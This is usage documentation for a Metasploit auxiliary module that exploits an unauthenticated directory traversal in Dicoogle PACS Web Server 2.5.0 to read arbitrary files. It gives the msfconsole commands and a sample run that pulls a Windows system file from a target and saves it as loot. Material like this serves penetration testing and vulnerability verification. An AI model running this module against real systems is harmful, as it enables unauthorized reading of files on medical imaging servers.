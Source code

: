 ## Description

This module exploits an unauthenticated directory traversal vulnerability
in the Dicoogle PACS Web Server v2.5.0 and possibly earlier, allowing an
attacker to read arbitrary files with the web server privileges.
While the application is java based, the directory traversal was only
successful against Windows targets.


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/dicoogle_traversal`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows 2012

  ```
  msf5 > use auxiliary/scanner/http/dicoogle_traversal 
  msf5 auxiliary(scanner/http/dicoogle_traversal) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf5 auxiliary(scanner/http/dicoogle_traversal) > run
  
  [+] ; for 16-bit app support
  [fonts]
  [extensions]
  [mci extensions]
  [files]
  [Mail]
  MAPI=1
  
  [+] File saved in: /root/.msf4/loot/20180721210736_default_1.1.1.1_dicoogle.travers_903795.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
